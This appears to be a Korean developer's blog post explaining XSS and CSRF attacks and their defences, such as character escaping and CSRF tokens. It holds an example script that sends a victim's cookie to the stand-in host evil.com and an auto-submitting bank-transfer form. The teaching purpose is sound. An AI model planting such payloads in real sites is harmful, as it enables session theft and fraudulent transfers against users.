 ```yaml
---
title: "XSS / CSRF ( 크로스 사이트 스크립팅 )"
date: 2023-07-10
category: others
---
```


![](/storage/2023071023051959065.jpg)

### XSS 란?

1. 공격자가 게시글등이나 메일에 악성코드를 실행하는 script태그등을 적어서 사용자가 클릭할수있게한다.
2. 그 악성 코드가 포함된 글을 사용자가 열게 되면 해당 script내에 있는 내용을 실행한다
3. 만약 해당 악성 코드 내에서 로그인한 사용자의 개인 정보가 담긴 쿠키(로그인 가능한 세션정보)등을 공격자의 서버로 보내는 코드가 포함되어있는경우 공격자의 서버로 해당 정보를 보내게 되고 개인정보가 탈취된다 ( **XSS : 쿠키탈취**)

### CSRF란?

1. 사용자가 구글이나 은행등의 서비스에 로그인된 상태이다
2. 사용자가 메일이나 불법사이트등을 클릭한다
3. 해당 사용자는 공격자가 적어놓은 악의적인 요청을 실행한다

   요청은 <form>등의 백그라운드에서 실행되는 형태이기때문에 사용자가 눈치채지 못한다

   악의적인 요청의 내용은 이와같다. 사용자가 구글이나 은행등 유명 서비스에 접속한것을 확인한다

   그러면 악의적인 요청을 실행한다. 은행의 계좌이체나 불법게시물 등록등을 실행한다
4. 사용자가 로그인된 정상적인 상태이기때문에 위의 악의적인 요청을 서버에서 실행한다

   (**CSRF**:공격자가 만든 악의적인 요청을 계속 서버에 요청)

### CSRF와 XSS의 차이

* XSS는 **악의적인 스크립트 코드를 게시물등에 심어서** **쿠키를 공격자에게 보내도록하여 개인정보를 탈취**하여 공격자가 이를 악용

  + 상황: 사용자가 웹사이트에 댓글을 남길 수 있는 시스템이 있고, 이 댓글 시스템이 사용자 입력을 적절히 검증하거나 이스케이프하지 않는다고 가정합니다.

  ```
  // 공격자가 남긴글
  <script>document.location='http://evil.com/steal.php?cookie='+document.cookie;</script>
  ```
* CSRF는 공격자가 **악의적인 요청을 실행하는 링크나 사이트를 사용자가 클릭하도록 하여 사용자가 악의적인 요청을 보내게 만들어**버림

  + 상황: 사용자가 로그인된 상태에서, 공격자가 만든 악의적인 웹페이지를 방문하게 됩니다. 이 웹페이지는 사용자의 은행 계좌에서 송금을 실행하는 폼을 자동으로 제출합니다.

  ```
  <html>
    <body>
      <h1>이 페이지는 악의적인 페이지입니다!</h1>
      <form action="http://your-bank.com/transfer" method="POST" id="evilForm">
        <input type="hidden" name="account" value="hacker's account number" />
        <input type="hidden" name="amount" value="1000" />
      </form>
      <script>
        document.getElementById('evilForm').submit();
      </script>
    </body>
  </html>
  ```

### 막기위한 방법

1. 최신 브라우저등은 CORS등을 지원하고있다. CORS는 해당 스크립트에서 현재 도메인과 다른곳에 요청을 보내지 못하도록 제한하는것이다

   그러므로 브라우저 업데이트를 하거나 구식 IE등은 사용하지않아야한다
2. Character escaping기능을 사용한다. Character escaping란 <>등의 태그를 입력시 "&lt;sciprt&gt;alert(1)&lt;sciprt&gt;"등으로 태그를 변환해준다

   현재 사용중인 TOAST UI Editor등의 WYSIWYG 에디터툴은 글을 작성시 태그가 입력되어있을시 자동으로 위와같이 변환해준다 (**XSS방지**)
3. CSRF 토큰 검증을 사용한다 (라라벨의 경우 블레이드 템플릿의 @csrf 지시자) (**CSRF방지**)

   서버의 세션에서 임의의 CSRF토큰을 만들어서 요청한 페이지의 hidden타입의 input태그에 저장한다.

   그리고 이후 유저한테서 요청이 올 경우 서버에서 발행한 CSRF토큰과 요청한 페이지의 CSRF토큰이 일치하는지 확인한다

   **→추가설명**

   즉 공격자의 form 요청에는 매번 바뀌는 CSRF토큰은 없기때문에 실행이 안됨

---

참조

https://www.youtube.com/watch?v=LfI6TAchgT4

https://junhyunny.github.io/information/security/spring-boot/spring-security/cross-site-reqeust-forgery/
